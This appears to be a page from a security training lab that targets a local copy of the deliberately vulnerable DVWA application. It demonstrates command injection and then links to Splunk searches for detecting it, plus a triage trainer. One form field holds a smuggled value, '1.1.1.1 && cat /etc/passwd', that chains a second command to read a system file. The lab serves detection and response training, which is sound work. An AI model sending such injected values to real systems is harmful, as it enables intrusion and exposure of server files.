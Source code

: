 <style type="text/css">
    .inline {
        display: inline;
    }
    .link-button {
        text-decoration: none;
        background: none;
        border: none;
        cursor: pointer;
        text-indent: 25px;
        color: #4078c0;
        font-family: "Segoe UI", "Helvetica Neue", Helvetica,Arial, freesans, sans-serif;
        font-size: 16px;
    }
    .link-button:focus {
        outline: none;
    }
    .link-button:active, .link-button:hover {
        text-decoration: underline;
    }
    #indented {
        text-indent:35px;
    }
    .observe {
        color: #0A17F2;
    }
    .hunt {
        color: #F56802;
    }
    .triage {
        color: #7540CB;
        font-weight: bold;
    }
</style>

A web client is able to use the web application to write arbitrary files to the web server. This is usually a web shell providing the ability to run arbitrary commands on the web server.

<br>

### Emulate an Adversary 

- Send a normal request:

<form name="exec"  target="_blank" class="inline" method="post" action="http://localhost:4444/vulnerabilities/exec/">
  <input type="hidden" name="ip" value="1.1.1.1"/>
  <input type="hidden" name="Submit" value="Submit"/>
  <button type="submit" class="link-button" style="color:#088A25">
Send a POST request to submit 1.1.1.1

  </button>
</form> 

<br>
<br>

- Send a malicious request:

<form name="exec"  target="_blank" class="inline" method="post" action="http://localhost:4444/vulnerabilities/exec/">
  <input type="hidden" name="ip" value="1.1.1.1 && cat /etc/passwd"/>
  <input type="hidden" name="Submit" value="Submit"/>
  <button type="submit" class="link-button" style="color:#C6150A">
Send a POST request to submit 1.1.1.1 && cat /etc/passwd

  </button>
</form> 

<br>
<br>


### Observe Own Activity

- Use Splunk to investigate your own activity:

<div id="indented">
<a href="http://localhost:8000/en-US/app/search/search?q=search%20index%3Dmain%20sourcetype%3Daccess_combined%20host%3Ddvwa%20uri_path%3D%2Fvulnerabilities%2Fexec%2F%0A%7C%20table%20_time%20clientip%20method%20uri_path%20uri_query%20bytes%20status%0A%7C%20sort%20-_time&display.page.search.mode=verbose&dispatch.sample_ratio=1&workload_pool=&earliest=-15m&latest=now&display.page.search.tab=statistics&display.general.type=statistics&sid=1596477035.2"  target="_blank" class="observe">http://splunk/en-US/app/search/search</a>
</div>
<br>


- Start a session with the victim server:

<div id="indented">
<a href="http://localhost:9009/?cid=dvwa" target="_blank" class="observe">Logon to DVWA server</a>
</div>

<br>

### Discover New Activity

- Use Splunk to discover use of this technique:

<div id="indented">
<a href="http://localhost:8000/en-US/app/search/search?q=search%20index%3Dmain%20sourcetype%3Daccess_combined%20host%3Dclone%0A%7C%20table%20_time%20clientip%20method%20uri%20status%0A%7C%20sort%20-_time&display.page.search.mode=verbose&dispatch.sample_ratio=1&workload_pool=&earliest=-15m&latest=now&display.page.search.tab=statistics&display.general.type=statistics&sid=1596473325.748" target="_blank" class="hunt">http://splunk/en-US/app/search/search</a>
</div>
<br>


- Check the victim server for artifacts:

<div id="indented">
<a href="http://localhost:9009/?cid=dvwa" target="_blank" class="hunt">Logon to DVWA server</a>
</div>

<br>

### Triage and Response Test

- Test yourself with the clock running:

<div id="indented">
<a href="http://localhost:7777/index.html" target="_blank" class="triage">Triage Tactics Trainer</a>
</div>
 
